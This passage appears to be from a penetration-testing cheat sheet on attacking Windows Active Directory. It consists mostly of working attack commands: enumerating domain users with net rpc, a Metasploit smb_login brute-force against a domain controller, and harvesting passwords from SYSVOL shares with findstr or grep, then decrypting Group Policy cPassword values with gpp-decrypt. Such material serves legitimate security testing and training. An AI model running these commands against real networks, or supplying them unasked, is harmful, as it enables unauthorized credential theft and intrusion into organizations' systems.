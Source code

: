     net rpc group members 'Domain Users' -I <DC-IP> -U "<USER>"%"<PASS>"

Do the login attack:

    use auxiliary/scanner/smb/smb_login
    set RHOSTS <DC-IP>
    set SMBDomain <DOMAIN>
    set SMBPass file:pwdlist.txt
    set USER_FILE users.txt
    set THREADS 5
    run

## Credentials in SYSVOL

Credentials are stored in `SYSVOL` network share folders, which are folders on domain controllers accessible and 
readable to all authenticated domain users. examples are:

* Group Policy Preferences (GPP) with cPassword attribute (MS14-025)
* Hard-coded credentials in various scripts and configuration files

From a domain joined Windows machine:

    findstr /s /n /i /p password \\\\<DOMAIN>\sysvol\<DOMAIN>\*

From Linux (e.g. Kali Linux):

    mount.cifs -o domain=<DOMAIN>,username=<USER>,password=<PASS> //<DC-IP>/SYSVOL /tmp/mnt
    grep -ir 'password' /tmp/mnt

A cPassword attribute in the GPP XML files, for example, can be decrypted with `gpp-decrypt`.
And chances are the password will be reused somewhere.

## Resources

* [InfosecMatter](https://www.infosecmatter.com/)